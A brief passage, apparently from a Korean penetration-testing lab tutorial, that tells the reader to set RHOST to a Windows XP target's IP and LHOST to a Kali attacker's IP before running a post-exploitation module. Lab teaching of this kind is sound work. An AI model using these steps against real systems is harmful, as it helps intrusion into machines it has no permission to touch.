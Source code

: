 ![4_17](./image4/post-exploit.png)

RHOST와 LHOST IP 를 설정해준다.

```
> set RHOST [window XP IP]
> set LHOST [Kali IP]
```

설정을 완료 했으면 실행시켜준다.
